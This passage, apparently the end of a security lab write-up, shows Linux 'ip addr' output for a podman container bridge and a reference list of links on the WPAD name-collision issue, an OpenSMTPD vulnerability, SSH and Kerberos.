  3: cni-podman1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
      link/ether 0e:7e:1c:08:ed:d2 brd ff:ff:ff:ff:ff:ff
      inet 10.241.251.1/24 brd 10.241.251.255 scope global cni-podman1
         valid_lft forever preferred_lft forever
      inet6 fe80::c7e:1cff:fe08:edd2/64 scope link
         valid_lft forever preferred_lft forever
  4: vethbc94cb18@if3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master cni-podman1 state UP group default
      link/ether 82:ca:1b:ae:e7:18 brd ff:ff:ff:ff:ff:ff link-netns cni-4a7ef39c-a97e-11a6-433c-4dd8d53bd27b
      inet6 fe80::80ca:1bff:feae:e718/64 scope link
         valid_lft forever preferred_lft forever
----
____

---

== PART 8 : REFERENCES

- https://nakedsecurity.sophos.com/2016/05/25/when-domain-names-attack-the-wpad-name-collision-vulnerability/
- https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/
- https://www.oreilly.com/library/view/linux-security-cookbook/0596003919/ch04s14.html
- https://directory.apache.org/apacheds/kerberos-ug/4.1-authenticate-kinit.html
- https://docstore.mik.ua/orelly/networking_2ndEd/ssh/ch11_04.htm
